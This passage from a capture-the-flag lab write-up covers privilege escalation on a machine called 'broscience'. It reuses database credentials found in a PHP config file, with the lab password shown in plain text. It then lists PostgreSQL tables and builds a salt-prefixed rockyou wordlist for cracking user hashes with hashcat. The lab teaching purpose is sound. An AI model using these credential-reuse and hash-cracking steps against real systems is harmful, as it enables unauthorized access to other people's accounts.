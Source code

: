 ## Privilege Escalation

### PostgreSQL Creds

Earlier, we found a `db_connect.php` file that contained some credentials. We can attempt to access the PostgreSQL instance listening on port 5432 on the machine.

```bash
www-data@broscience: /var/www/html$ psql -h localhost -d broscience -U dbuser -W
# Password is RangeOfMotion%777
```

We can use `\d` to read the tables present on the machine.

```
 Schema |       Name       |   Type   |  Owner   
--------+------------------+----------+----------
 public | comments         | table    | postgres
 public | comments_id_seq  | sequence | postgres
 public | exercises        | table    | postgres
 public | exercises_id_seq | sequence | postgres
 public | users            | table    | postgres
 public | users_id_seq     | sequence | postgres
```

Then, we can read the stuff in the `users` file.&#x20;

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

We would find lots of hashes. Since the user on the machine is `bill`, let's attempt to crack his hash. The `db_connect.php` file did have a salt for the hashes as "NaCl". Using this, we can generate a wordlist based on rockyou.txt with this salt prepended to all the words.

```bash
cp /usr/share/wordlists/rockyou.txt .
sed -i 's|^|NaCl|g' rockyou.txt
```

Then, we can use `hashcat` to crack the hash.
